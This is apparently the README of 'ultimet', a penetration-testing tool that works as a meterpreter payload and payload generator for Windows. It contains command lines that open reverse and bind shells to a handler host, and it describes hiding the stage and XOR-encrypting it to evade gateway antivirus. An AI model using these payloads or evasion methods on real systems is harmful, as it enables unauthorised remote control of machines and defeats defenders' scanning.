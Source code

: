 ================================================
[ultimet] - The ultimate meterpreter executable.
================================================
  ...your one stop shop for all your
              meterpreter executable needs...

Usage, examples and faq http://eldeeb.net/wrdprs/?p=176

#0. Executive Summary :)#
ultimet:
 - Is a windows executable that can function as various meterpreter flavours, in addition to functioning as "msfpayload" to generate exe files that run hidden when executed.
 - Supports functioning as the following meterpreter "types": "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https", "metsvc_bind_tcp" and "metsvcreverse_tcp"
 - Can create exe files that connects upon execution using pre-configured settings "exactly as msfpayload generated exe", however, generated exe files still accept command line arguments and settings could be reset or changed, all supported from within that single exe ... "meterpreter-on-steroids :)".
 - The generated exe is a pre-configured ultimet that can be used to create OTHER exe files! so, let's say you created a reverse_tcp exe using the `--msfpayload` option, you can use THAT exe later to create another bind_metsvc, then use THAT exe to create a reverse_http ... and so on, or simply reset to default...pretty neat! 
 _ultimet is a program that once found its way to inside a windows environmet, you won't need msfpayload or msfvenom anymore to create different exe files for different settings, use the same exe for different situations_
 - The msfpayload-like functionality works under linux perfectly fine using "wine >= 1.3.17", no need to leave your beloved *n?x box to create a pre-configured exe.
 - Supports many options to load the stage from: Resource, Encrypted-Resource, file, encrypted file or over the network "stager-mode" ... it functions as a non-staged payload "inline" when the stage is provided "either through file or the default bundled-resource".
 - Offset of ReflectiveLoader function is calculated at runtime and bootstrap is patched in memory, so, in plain english, you can use your own self-compiled metsrv.dll as the stage!.
 
 
 _Working as payload:_
 
 Example#1: Connect back to a meterpreter/reverse_tcp handler, LPORT=4444, LHOST=192.168.59.132
 
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444`
 
 Example#2: Start listening "bind" on all interfaces waiting for a meterpreter/bind_tcp handler to connect, LPORT=8888
 
 `ultimet.exe -t bind_tcp -h 0.0.0.0 -p 8888`
 
 Example#3: Load stage from local file, connect back to a meterpreter/reverse_http handler, LPORT=8080, LHOST=192.168.59.132
 
 `ultimet.exe -f c:\wwwroot\uploads\metsrv.dll -t reverse_http -h 192.168.59.132 -p 8080`

_Working as msfpayload:_

 Example#1: msfpayload windows/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.59.132
 
 `ultimet.exe -t reverse_tcp -h 192.168.59.132 -p 4444 --msfpayload`
 
 Example#2: Reset exe to default and remove all pre-set connection settings
 
 `ultimet.exe --reset`
 
 Example#3: Remove bundled stage to create a smaller file
 
 `ultimet.exe --remove-stage`
 
 
---------------
1. Introduction
---------------
  - Stand-alone meterpreter executables that are created using (msfpayload/msfvenom) are not flexible in selecting the LHOST, LPORT or even the transport after being created ... i.e. once you create the exe, you cannot change any of the settings you specified during the creation of the executable.

  - Meterpreter by design is a "staged" payload, it consists of a "stager" and a "stage"; when msfpayload|msfvenom create an exe, that's the "stager" part of meterpreter, which has only one purpose: When executed, connect back to the exploit/multi/handler, make room for the stager, copy the "stage" from handler, then execute the "stage" ... that "stage" is nothing but a patched version of "metsrv.dll" that you find in metasploit directory ... this scenario presents a challenge in highly secure environments(!) where incoming files from the internet are checked for viruses `:)` ...  example: someone created a meterpreter/reverse_http exe using msfvenom, then he manages to bypass AV somehow and successfully executed this exe on one machine inside the target environment, if there's some kind of virus checking of downloaded files at the gateway/proxy level ... the "stage" gets flagged, not downloaded, not executed, and you're doomed.

-------------------
2. What is ultimet?
-------------------
  - read the executive summary ...

------------------------------------------------
3. What are the supported transports (payloads)? 
------------------------------------------------
- It supports "reverse_tcp", "bind_tcp", "reverse_http", "reverse_https" and "bind_metsvc & reverse_metsvc <- when stage included". 

---------------------------------------
4. How exactly is the stage "included"? 
---------------------------------------
- The "stage" can be loaded using any of the following options:
  - From a resource, or an encrypted resource that is included in the exe itself.
  - From a file (metsrv.dll), or an encrypted file.
  - ... if stage is not available, stage gets loaded over the network, which is basically falling back into "stager-mode".

------------------
5. inmet & ultimet 
------------------
The zip file contains two exe, inmet & ultimet:
- inmet is (ultimet + stage as a resource) that is the (exe) that has the (stage as a resource).
- ultimet is (inmet - stage as resource) that is JUST THE EXE.
- so, if you used any PE resource editor to crack open inmet.exe, you'll find a resource called "BINARY" and ID "101", if you deleted that resource, it will still work, but as a stager only.
- ... if you took that "stripped-down" exe again, opened it, and imported metsrv.dll (or the encrypted version of it)  into that exe, called the resource "BINARY" and set the ID to "101" ... it will become an inline exe again.
- inmet and ultimet are SAME EXECUTABLE that detects when it's just a mere stager, or the inline version of the executable.
- Got it? ... if not just download both and try to figure out the difference on your own ...

---------------
6. Encryption?! 
---------------
- ultimet will load metsrv.dll if it is plain (the one in your computer) or encrypted using the following scheme:
    - XOR every byte % a random 16-bytes key (position = i % 16; metsrv[i] ^=  key[position])
    - PREPEND the whole encrypted metsrv.dll with the 16 bytes random key :)
- FIPS compliant, strong and unbreakable encryption, I know, thank you ... but it gets the job done pretty well "AV sig change".
- A tool is included that does this automatically (ultimet_xor.exe) ... just drag metsrv.dll over it and you'll get a file called "encrypted.rsc" ... import that into ultimet.exe, they'll know how to play nice with each other.

---------------
7. Known issues 
---------------
- Currently the ReflectiveDLL bootstrap has the RVA_to_file offset of the ReflectiveLoader  hardcoded, so, you cannot use your own metsrv.dll if that offset is different without changing the offset in "constants.h" ... working on it.
- If your linker complained about not finding "encrypted.rsc" ... open "inmet.rc" using a text editor, and hard code the path there "or just put it on the root of your "e:\" drive ... to lazy to fix that and VS can be a **** sometimes.

----------------
8. Bug reporting 
----------------
- Github
- ultimet@eldeeb.net

---------
9. Author 
---------
- Sherif Eldeeb
- http://eldeeb.net
- @SheriefEldeeb
- archeldeeb@gmail.com
Made in Egypt.

... P.S: I am not a developer ;)

-------------------
10. Contributors:
-------------------
- Anwar Mohamed "@anwarelmakrahy"
  Added support for metsvc_bind_tcp & bind_tcp.
  Added support for run-time parsing for ReflectiveLoader function RVA & locate file offset.
  
-------------------
11. Acknowledgments
-------------------
- All the extremely helpful people at #metasploit, and the mailing list:
hdm, corelanc0d3r, mihi, egypt, kernelsmith, tillo.
- Stephen Fewer for helping with ReflectiveDll stuff.
- @lnxg33k, @anwarelmakrahy & Yehia Mamdouh: for testing and bug reporting.




